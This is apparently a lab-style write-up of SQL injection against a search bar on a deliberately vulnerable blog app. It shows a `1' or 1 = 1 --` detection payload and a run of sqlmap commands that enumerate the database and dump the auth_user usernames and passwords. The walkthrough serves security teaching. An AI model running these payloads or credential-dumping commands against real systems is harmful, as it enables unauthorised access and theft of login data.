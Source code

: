 # Sql injection 

# SQLI in Search bar

## 1. Detect 

In the search form field when the user searches for anything, the things the user just entered will go directly through the database and return the results to the user. So this is the vulnerable point

![image](https://user-images.githubusercontent.com/63194321/133385296-5295094c-49c4-4034-a3b0-3bc00fecfe3b.png)

We will check in this location.

First, we will search  `'`  on the search form. Result returned error

![image](https://user-images.githubusercontent.com/63194321/133388364-77edc108-4f68-4f64-ac21-bcd30f66c4db.png)

Now here there will probably be an `SQLi` error. To be more sure, we'll search with a payload of `1' or 1 = 1 --`.

The result returns `all` posts in the database. So this is definitely an `In-band SQLi` vulnerability

## 2. Exploit
After determining that there is `In-band SQLi` at this address, we will use sqlmap to scan and attack

**B1.** Start Sqlmap and enter command to scan for `sqli` vulnerabilities:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch`

![image](https://user-images.githubusercontent.com/63194321/132506775-bfe319ad-d1e6-4b7d-9535-31730048cc07.png)

**B2.** Define a list of databases:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch --dbs`

![image](https://user-images.githubusercontent.com/63194321/132508430-06ebfa6b-66a3-4e06-bd35-7857fab4a5f0.png)

**B3.** Identify the tables in the database:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -tables`

![image](https://user-images.githubusercontent.com/63194321/132508803-98a9a86f-dca3-419c-84c7-f284a535c659.png)

**B4.** Define columns in tables:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -T auth_user -columns`

![image](https://user-images.githubusercontent.com/63194321/132509383-9d885446-6ffb-4409-957a-ffeabfbac78e.png)

**B5.** Get the username and password values:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -T auth_user -C username, password --dump`

![image](https://user-images.githubusercontent.com/63194321/132510741-09017ecd-a95e-4cc5-8f45-b0129742314d.png)


